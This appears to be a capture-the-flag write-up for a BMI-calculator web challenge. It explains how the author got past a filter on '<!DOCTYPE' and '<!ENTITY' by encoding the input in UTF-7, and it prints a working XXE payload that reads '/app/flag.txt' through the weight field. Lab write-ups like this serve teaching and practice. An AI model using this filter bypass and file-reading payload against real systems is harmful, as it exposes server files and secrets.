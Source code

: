 
Here we have a simple UI which kinda works 
![image](https://github.com/user-attachments/assets/b452071b-2683-441d-b9bc-552f0f67cbd8)

However it wont work with any other inputs other than numbers
![image](https://github.com/user-attachments/assets/cdddb0b9-6166-41c4-b4d7-db1d2da1f166)

Here is the burp suite view 
![image](https://github.com/user-attachments/assets/6aece962-c95f-4084-9b90-a1893d8a9c1e)

Welp, the code kinda blocks a certain thing which is the <!DOCTYPE AND <!ENTITY (utf-77 enocded)
![image](https://github.com/user-attachments/assets/213ac47f-6638-4533-98cb-8cae1d6a6740)

However, for whatever reason as seen here, the way cyberchef encodes the payload in UTF7 doesnt seem to clash with the present filter of the code
```
<?xml version="1.0" encoding="UTF-7"?><!DOCTYPE replace [ <!ENTITY fauna SYSTEM "file:/app/flag.txt"> ]>
<data><weight>&fauna;</weight><height>20</height></data>
```
All we have to do is encode the second part 

![image](https://github.com/user-attachments/assets/280bbdec-364c-43b7-be84-0bcca5f8a156)

AND there you have it 
![image](https://github.com/user-attachments/assets/54dfcf06-9feb-4959-8c4f-c8ac64336eab)


![image](https://github.com/user-attachments/assets/d830c654-61c8-44e3-ad43-12cb95f367c6)


> heres a side note...
> I HAVE SPENT COUNTLESS TIMES THINKING MY PAYLOAD WAS THE ISSUE UNTIL I FIGURED I SHOULD TRY ALTERING THE FIELD OF WHICH I PLACE MY XXE (i always placed it in height)
> THEN IT WORKED. ONLY FOR ME TO REALIZED THIS SECTION OF THE CODE
> IF HEIGHT IS 0 IT BECOMES ERROR, WHEN WEIGHT IS 0, IT RETUERNS 0 

```
    height_in_meters = height_float / 100  # Convert height to meters
    return weight_float / (height_in_meters * height_in_meters)
```
add on note


![image](https://github.com/user-attachments/assets/f32e499a-8399-4607-8e8c-a143b5d8e1f5)

